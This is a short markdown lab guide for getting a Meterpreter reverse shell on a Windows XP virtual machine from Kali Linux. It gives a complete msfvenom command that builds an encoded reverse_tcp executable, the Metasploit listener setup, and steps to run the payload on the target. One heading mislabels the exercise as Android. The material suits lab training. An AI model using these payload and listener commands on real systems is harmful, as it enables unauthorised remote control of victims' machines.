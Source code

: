 ### **Windows XP Meterpreter Practical Setup**

#### **1. Components Required:**

- **Kali Linux** (as the attacker machine)
- **Windows XP** (64-bit ISO as the target machine)

---

### **2. Network Configuration:**

- Configure both **Kali Linux** and **Windows XP** Virtual Machines in **NAT Network** mode:
    - Ensures both machines have internet access.
    - Facilitates communication between them.
- Use the `ping` command to verify connectivity between the two machines.

---

### **3. Practical: Android Meterpreter (Windows XP)**

#### **Step 1: Generate Payload on Kali Linux**

Use **msfvenom** to create a malicious executable file:

```bash
msfvenom -p windows/meterpreter/reverse_tcp -a x86 -e x86/shikata_ga_nai LHOST=<Kali_IP> LPORT=4000 -f exe > sunbeam.exe
```

#### **Step 2: Set Up Listener on Kali Linux**

1. Open **Metasploit Framework**:
    ```bash
    msfconsole
    ```
2. Configure the handler:
    ```bash
    use multi/handler
    set payload windows/meterpreter/reverse_tcp
    set LHOST <Kali_IP>
    set LPORT 4000
    exploit
    ```

#### **Step 3: Execute Payload on Windows XP**

1. Transfer the generated payload (`sunbeam.exe`) to the **Windows XP** machine.
2. Run the file on the Windows XP system to establish a reverse connection.

---

### **4. Notes:**

- Use the `help` command within Metasploit for assistance with available commands and their usage.
---
